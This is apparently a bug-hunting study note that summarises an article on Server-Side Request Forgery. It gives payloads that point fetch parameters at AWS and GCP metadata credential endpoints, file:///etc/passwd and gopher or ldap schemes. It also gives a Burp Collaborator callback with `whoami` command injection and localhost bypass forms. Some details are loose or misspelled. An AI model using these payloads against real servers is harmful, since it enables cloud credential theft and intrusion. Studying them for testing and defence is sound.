 # 🧠 SSRF
**SSRF** (Server‑Side Request Forgery) is a vulnerability where you trick a server into making HTTP requests **on your behalf**.  
If the server can be convinced to fetch a URL you control, you can often make it talk to **internal systems** or **cloud metadata services** that you normally can’t reach.

---

## 🔍 Core Idea
- The app has a feature like:
  ```
  GET /api/v1/fetch?url=https://site.com/image.jpeg
  ```
- You change the `url` parameter to something else — not an image, but an **internal address**.
- The server fetches it, and you get the response.

---

## ☁ Cloud Metadata Targets
Cloud providers expose special internal IPs that return **sensitive instance data**:

| Provider | Metadata IP/Host | Example Sensitive Paths |
|----------|------------------|-------------------------|
| AWS | `169.254.169.254` | `/latest/meta-data/iam/security-credentials` (access keys) |
| GCP | `metadata.google.internal` | `/computeMetadata/v1beta1/instance/service-account/default/token` (tokens) |

If you can make the vulnerable server request these, you can steal credentials.

---

## 🛠 Exploitation Flow (from the article)
1. **Test with your Burp Collaborator URL**  
   Replace the `url` param with something like:
   ```
   http://<your-collaborator>.burpcollaborator.net
   ```
   eg: if you have a website like:`http://example.burpcollaporator.net` ⇒ you can make RCE like :

```http://`whoami`.example.burpcollaporator.net``` OR `http://$(whoami).example.burpcollaporator.net`<br>
   If you see an HTTP/DNS hit, SSRF is confirmed.

2. **Pivot to internal targets**  
   Try:
   ```
   http://169.254.169.254/latest/meta-data/
   ```
   or for GCP:
   ```
   http://metadata.google.internal/...
   ```

3. **Grab sensitive data**
   - AWS: IAM role creds, instance identity docs, hostnames.
   - GCP: Access tokens, SSH keys.
   ### sensitive places for SSRF:

- `?url=file:///etc/passwd`
- `?url=gopher://`
- `?url=ssh://` ⇒ RCE
- `?url=dict://` (dictionary network protocol)
- `?url=ftp://` (file transfer protocol)
- `?url=ldap://` (lightweight directory access protocol)
- `?url=tftp://`

---

## 🧩 Tricks Mentioned
- **Alternate localhost forms**: `127.1`, `127.0.0.0.0.1`, `[::]` if `127.0.0.1` is blocked.
- **Other protocols**: `file:///etc/passwd`, `gopher://`, `ftp://`, `ldap://` — sometimes SSRF lets you hit non‑HTTP services.
- **Weird payloads**: Embedding SSRF in SVG, HTML, or media files to trigger server‑side fetches.
- **Command injection via DNS**: Using backticks or `$()` in subdomains to try RCE if the server resolves them.

---

## 📍 Where to Look for SSRF
The article lists common parameter names:
```
url, uri, link, target, dest, destination, page, path, site, file,
feed, proxy, host, domain, callback, webhook, img, photo, avatar,
upload_url, download, resource, api_url, endpoint, reference_url,
server, next, redir, redirect, return
```
Also:
- Certain HTTP headers (`X-Forwarded-Host`, `Origin`, `Host`).
- Full URL paths in requests.
- Inside uploaded files (HTML, SVG, XML) that the server might parse and fetch from.

---

## 🧠 TL;DR in One Sentence
If you can control a URL that the server fetches, you can make it talk to **internal networks** or **cloud metadata endpoints**, potentially leaking credentials or enabling further attacks.

---
[MEDIUM LINK](https://medium.com/@MohammedMHassan/ssrf-7c3f196e8d45)
